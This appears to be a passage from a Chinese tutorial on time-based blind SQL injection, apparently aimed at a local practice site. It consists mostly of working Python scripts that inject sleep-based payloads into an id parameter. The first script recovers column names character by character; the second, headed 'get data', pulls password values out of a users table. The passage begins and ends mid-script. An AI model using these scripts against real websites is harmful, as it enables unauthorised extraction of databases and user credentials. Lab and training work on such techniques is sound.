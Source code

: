 ```python
                              f"{count},1))>={num_1},sleep(5),1) -- qqqqq "
        start = time.time()
        message = requests.get(url_columns_name_length)
        stop = time.time()
        if stop - start >= 5:
            break
        num_1 += 1

    for i in range(1, num_1 + 1):
        for num_2 in range(33, 126):
            url_columns_name = f"http://localhost/?id=a' and if(ascii(substr((select column_name from " \
                                f"information_schema.columns where table_schema=database() and table_name=‘users’ " \
                                f"limit {count},1),{i}," \
                                f"1))={num_2},sleep(5),1) -- qqqqq "
            start = time.time()
            message = requests.get(url_columns_name)
            stop = time.time()
            if stop - start >= 5:
                payload += chr(num_2)
    count += 1
    print(payload)
print("——"*10)

```

##### 获取数据

```python
import requests
import time

payload = ''
num_1 = 1
count = 0
while True:
    url_columns_count = f"http://localhost/?id=a' and if((select count(password) from users) >= {count},sleep(5),1) " \
                        f"-- qqqqq "
    start = time.time()
    message = requests.get(url_columns_count)
    stop = time.time()
    if stop - start >= 5:
        break
    while True:
        url_columns_length = f"http://localhost/?id=a' and if(char_length((select password from users limit " \
                              f"{count},1))>={num_1},sleep(5),1) -- qqqqq "
        start = time.time()
        message = requests.get(url_columns_length)
        stop = time.time()
        if stop - start >= 5:
            break
        num_1 += 1

    for i in range(1, num_1 + 1):
        for num_2 in range(33, 126):
            url_columns = f"http://localhost/?id=a' and if(ascii(substr((select password from users " \
                                f"limit {count},1),{i}," \
                                f"1))={num_2},sleep(5),1) -- qqqqq "
            start = time.time()
            message = requests.get(url_columns)
```